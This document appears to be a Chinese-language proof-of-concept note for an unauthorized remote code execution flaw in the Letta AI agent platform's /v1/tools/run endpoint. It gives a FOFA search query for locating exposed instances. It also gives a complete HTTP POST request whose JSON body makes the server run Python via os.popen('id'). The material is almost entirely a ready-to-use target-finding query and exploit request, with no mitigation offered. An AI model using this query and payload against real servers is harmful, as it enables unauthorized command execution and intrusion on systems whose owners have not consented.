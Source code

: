 Letta平台AI代理框架 run 存在未授权代码执行

fofa

(title="Letta" || (body="/assets/index-048c9598.js" && body="/assets/index-0e31b727.css"))

poc

POST /v1/tools/run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Connection: close
Content-Type: application/json
Content-Length: 241

{
  "source_code": "def test():\n    \"\"\"Test function to execute system commands.\"\"\"\n    import os\n    return os.popen('id').read()",
  "args": {},
  "env_vars": { "PYTHONPATH": "/usr/lib/python3/dist-packages" },
  "name": "test"
}